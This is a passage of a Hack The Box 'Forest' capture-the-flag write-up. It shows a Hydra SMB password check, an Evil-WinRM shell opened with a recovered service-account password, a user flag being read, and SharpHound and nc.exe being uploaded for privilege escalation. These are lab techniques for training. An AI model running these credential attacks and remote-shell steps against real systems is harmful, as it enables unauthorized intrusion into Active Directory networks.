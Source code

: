 

Check if this password can be used in smb:

```bash
dumbland () hgfs/hackthebox/forest :: hydra -l svc-alfresco -p s3rvice smb://10.10.10.161
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-20 19:35:19
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 1 login try (l:1/p:1), ~1 try per task
[DATA] attacking smb://10.10.10.161:445/
[445][smb] host: 10.10.10.161   login: svc-alfresco   password: s3rvice
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-20 19:35:20
```



After some enumeration with **smbclient** and **smbmap** we move on to get a initial shell.



## Initial Shell

in the nmap we saw the port 5985 is open. Let see if we can run evil-winrm:

```bash
dumbland () hgfs/hackthebox/forest :: evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

Evil-WinRM shell v2.0

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> cd ..
cd Deskto*Evil-WinRM* PS C:\Users\svc-alfresco> cd Desktop
cat *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> cat user.txt
e5e4e47ae7022664cdaxxxxxxxxxxxxx
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop>
```



## Priv Escalation 

In the initial recon we saw the machine is a domain controller of a active directory. The natural choice is **bllodhond**. Upload sharphound.exe, ran and collect the generate files. For his machine is enough, you do not worry about any av evasion technique. 

```bash	
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload SharpHound.ps1
Info: Uploading SharpHound.ps1 to C:\Users\svc-alfresco\Documents\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload nc.exe
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> dir

    Directory: C:\Users\svc-alfresco\Documents


Mode                LastWriteTime         Length Name                                                                                                                                       
----                -------------         ------ ----                                                                                                                                       
-a----        4/20/2020   5:40 PM          59392 nc.exe                                                                                                                                     
-a----        4/20/2020   5:36 PM         886533 SharpHound.ps1                                                                                                                                                        
```
